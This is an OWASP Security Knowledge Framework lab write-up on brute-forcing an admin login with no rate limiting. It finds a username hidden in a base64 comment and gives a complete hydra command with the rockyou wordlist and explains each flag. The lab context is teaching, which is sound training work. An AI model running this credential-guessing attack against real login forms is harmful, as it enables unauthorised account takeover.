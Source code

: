 # Brute force login

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:ratelimiting
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:ratelimiting
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

![Login Form](https://i.postimg.cc/8zyR0bLX/loginform.jpg)

The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?

Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.

![Source Code](https://i.postimg.cc/d0L2PTBs/sourcecode.jpg)

We are going to decrypt the base64 encoded string using terminal as shown in the below image.

![Base64 Decode](https://i.postimg.cc/qMxX8rqT/base64decoding.jpg)

```
abhi@sh3ll:~$ echo 'RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ==' | base64 --decode
abhi@sh3ll:~$ Developer username: devteam
abhi@sh3ll:~$ Client: Rockyou
```

## Exploitation

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =) Client, rockyou? Are we referring to the rockyou wordlist?

Rockyou Wordlist - [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-20.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-20.txt)

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.

Bruteforcing using Hydra

```
hydra -l devteam -P Desktop/pentest/rockyou.txt 0.0.0.0 -s 1332 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
```

After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.

![Bruteforce Success](https://i.postimg.cc/HLRQpsZQ/bruteforcesuccess.jpg)

## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.

{% embed url="https://www.owasp.org/index.php/Blocking_Brute_Force_Attacks" %}

